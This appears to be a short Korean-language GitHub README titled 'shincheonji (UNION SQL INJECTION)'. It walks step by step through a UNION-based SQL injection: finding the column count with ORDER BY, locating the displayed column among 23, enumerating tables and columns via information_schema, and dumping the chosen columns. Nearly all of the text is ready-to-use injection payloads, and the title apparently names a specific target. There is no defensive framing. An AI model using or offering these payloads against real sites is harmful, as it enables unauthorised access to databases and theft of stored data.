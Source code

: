 # shincheonji (UNION SQL INJECTION)

order by: 어떤것으로 정렬 하겠다
* * *
1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
```
aa' order by 1 #
```
* * *
정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다. 그리고 찍힌 숫자의 자리에 원하는 데이터를 넣을수 있다. 11번이라면 11의 자리의 원하는 데이터를 넣을수 있다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #
```
* * *
테이블(데이터베이스로 추정)들을 출력한다. 찍힌 숫자가 11번이기 떄문데 11자리에 'table_name'을 넣은것이다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,table_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.tables where table_type='BASE TABLE' #
```
* * *
찾을 테이블의 이름을 넣어서 테이블의 컬럼(테이블로 추정)들을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,column_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.columns where table_name='테이블 이름' #
```
* * *
컬럼을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,컬럼 이름,12,13,14,15,16,17,18,19,20,21,22,23 from 테이블 이름 #
```
